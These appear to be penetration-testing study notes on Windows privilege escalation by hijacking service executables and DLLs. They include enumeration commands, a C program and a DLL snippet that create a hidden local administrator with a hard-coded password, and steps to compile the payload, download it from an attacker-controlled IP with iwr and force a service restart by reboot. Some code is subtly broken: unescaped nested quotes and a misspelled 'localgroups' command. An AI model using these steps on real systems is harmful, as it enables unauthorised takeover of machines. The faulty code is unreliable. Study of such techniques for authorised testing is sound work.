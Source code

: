 ## Leveraging Windows Services

**Hijacking Service Binaries**
- `Get-CimInstance`to query services of WMI (Windows Management Instrumentation) class
	- `Get-CimInstance -ClassName win32_service | Select Name,State,Pathname | Where-Object {$_.State -like 'Running'}`
	- PowerUp.ps1 (https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) can also identify these (among others)
- Check the permissions of the service binaries with `icacls` or `Get-ACL`
	- `icacls "{executable path}"`
	- F - Full access
	- M - Modify Access
	- RX - Read/execute access (this is too low)
	- R - Read-only access
	- W - Write only access
- If a user has full control over a binary with higher permissions (like a MySQL daemon), we can edit the executable and it will be run with higher permissions
	- This can occur due to full permissions being an easy solution for sysadmins
	- This binary can be as simple as creating an administrative user with `system()`
	- `sudo apt install mingw-w64`
	- `x86_64-w64-mingw32-gcc newuser.c -o newuser.exe`
		- `python3 -m http.server`
		- `iwr -uri http://{kali_IP}:8000/newuser.exe -Outfile newuser.exe`
		
```cpp
#include <stdlib.h>
int main ()
{
  int i;
  
  i = system ("net user kali Password123! /add");
  i = system ("net localgroup administrators kali /add");
  i = system ("net localgroup "Remote Desktop Users" kali /add");
  
  return 0;
}
```

- Then, move the normal executable out from it's usual location, move ours in, and then figure out how to restart the service (so it uses the exe)
- Restarting the service
	- Could be as simple as `net stop {service}`, but access will likely be denied
	- If the service's `StartMode` is set to "Auto", we can reboot the system (if permissions allow)
		- shutdown /r /t 0

**Hijacking Service DLLs**
- Similar to hijacking binaries, can replace DLL with malicious code
- Searching for DLLs:
	- `Get-ItemProperty "HKLM:\SOFTWARE\(optional)Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname` to find installed software
	- The versions of this software could be vulnerable to DLL hijacking (search it up)
- Can also replace missing DLLs with malicious ones
	- This can be useful when we find a binary we can't modify that loads a missing DLL
		- Will likely be looked for in a PATH location (check with `$env:path`), so we put it there
	- We can find missing DLLs by copying user executables to our machine and checking them out with Process Monitor
- When making the DLL, we can again simply add an administrative user to the system using something like the following inside of `case DLL_PROCESS_ATTACH`:
	- `int i; i = system("net user /ADD tempuser"); i = system("net localgroups administrators /ADD tempuser"); break;`
	- MinGW can compile C++ code into DLLs with the `--shared` flag
		- `x86_64-w64-mingw32-gcc dll.cpp --shared -o dll.dll`
